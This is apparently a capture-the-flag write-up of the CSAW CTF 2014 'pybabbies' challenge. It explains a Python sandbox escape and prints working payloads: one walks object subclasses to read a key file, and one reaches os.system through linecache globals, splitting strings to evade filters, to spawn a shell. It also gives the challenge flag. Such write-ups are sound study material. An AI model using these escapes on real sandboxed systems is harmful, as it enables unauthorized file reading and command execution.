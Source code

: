 ## CSAW CTF 2014
# Exploit 200 : pybabbies

![question](img/qn.png)

You are provided a python file

This challnege basically revolves around this vulnerability https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/

Basically, a global variable "\_\_builtins\_\_" is initialized everytime python execution begins. This variable can potentially bypass filters and gain access to sensitive commands like "eval" or "openfile"

After some trial and error, I issued the following command to the program

```
print(().__class__.__bases__[0].__subclasses__()[40]("./key.txt").read())
```

![01](img/01.png)

It responded with

```
ALL YOUR FLAG ARE BELONG TO US. FIND WHERE I MOVED IT TO =)
catch_warnings = ().__class__.__base__.__subclasses__()[59]
linecache = catch_warnings.__enter__.__func__.__globals__['linecache']
o_s = linecache.checkcache.__globals__['o'+'s']
s_h = o_s.__dict__['sy'+'stem']('sh')
```

Take note of the last line, seems like its possible to open a system shell

Based on that, I issued the following command

```
print(().__class__.__base__.__subclasses__()[59].__enter__.__func__.__globals__['linecache'].checkcache.__globals__['o'+'s'].__dict__['sy'+'stem']('sh'))
```

and I got a shell!! After that just do a "ls" and "cat" the flag out

![02](img/02.png)

Flag is **flag{definitely_not_intro_python}**